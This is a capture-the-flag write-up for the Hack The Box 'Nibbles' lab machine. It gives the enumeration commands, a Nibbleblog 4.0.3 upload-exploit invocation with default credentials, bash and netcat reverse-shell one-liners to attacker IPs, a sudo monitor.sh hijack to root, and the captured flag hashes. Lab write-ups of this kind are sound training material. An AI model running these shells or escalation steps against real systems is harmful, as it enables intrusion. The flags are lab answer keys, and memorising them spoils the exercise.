

# Time: 11:55am - 2:10pm

# Given

Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.

## IP: 10.10.10.75

# Steps

## Initial Enumeration

- $ nmap -sCV -p- 10.10.10.75 -oN enum/nmap.out
    - 2 open ports tcp 22 (ssh), 80 (http)
    - Server: Apache/2.4.18 (Ubuntu)
    - OS: Linux
- SSH needs creds, so focus on enumerating HTTP server
    - whatweb wasn't much help
    - manual enumeration showed a comment with a link called "/nibbleblog"
- nibbleblog shows a blog site.
    - Source code doesn't have much info either
    - Some links like feed seem to be PHP files
    - directory enumeration with feroxbuster shows more php files
- Nibbleblog version can be found at ip/nibbleblog/README

## Initial Foothold

- Googling for the nibbleblog version gives the cve
- Downloaded python file for the RCE exploit
- Run exploit to get inital foothold
    - `python3 nibbleblog_4.0.3.py -t <http://10.10.10.75/nibbleblog/admin.php> -u admin -p nibbles -shell`
- Run code to initiate reverse shell to attack host
    - `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1’`

## Local Enumeration

- `sudo -l` works here. A better way would have been using: **`find / -perm -4000 -type f -exec ls -la {} \\; 2>/dev/null`** .
- User Nibbler can run a certain file as root `/user/home/nibbler/personal/stuff/monitor.sh`

## Privilege Escalation

### Quick and Dirty

- Since user can run [`monitor.sh`](http://monitor.sh) as root, we can create a file with the same name and put it in the same folder then run it as root.

```bash
#! /bin/bash

/bin/bash -p
```

- Give it permissions to execute: `chmod +x ./monitor.sh`
- Run the file as sudo `sudo /home/nibbler/personal/stuff/monitor.sh`
- This opens a root shell.

### Cleaner

- There’s a zip file with the [`monitor.sh`](http://monitor.sh) file inside. Add the code to connect to our attacking host in a bash terminal.
- You can have a netcat listener running to catch that ping.

```bash
# Target Machine
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
```

```bash
# Attacking Machine
root@kali# nc -lnvp 8083
listening on [any] 8083 ...
connect to [10.10.15.154] from (UNKNOWN) [10.10.10.75] 52184
# id
uid=0(root) gid=0(root) groups=0(root)
```

- Resource : [https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html#privesc](https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html#privesc)

# Findings

- Most directories are open to view
- Config.xml - [](http://10.10.10.75/nibbleblog/content/private/config.xml)[http://10.10.10.75/nibbleblog/content/private/users.xml](http://10.10.10.75/nibbleblog/content/private/users.xml)
    - Possible username of site admin: admin
- Admin page: ip/nibbleblog/admin.php
- Nibbleblog version is 4.0.3
    - This version is vulnerable to arbitrary file upload CVE-2015-6967
- Inital foothold user is Nibbler

# Creds

- Default web admin creds are `admin:nibbles`

# Flags

- user.txt - 275fe786daa51e9d7231b202bee8d88d
- root.txt - 49e2d3850b93b08c190ddc59995273a9

# Proof


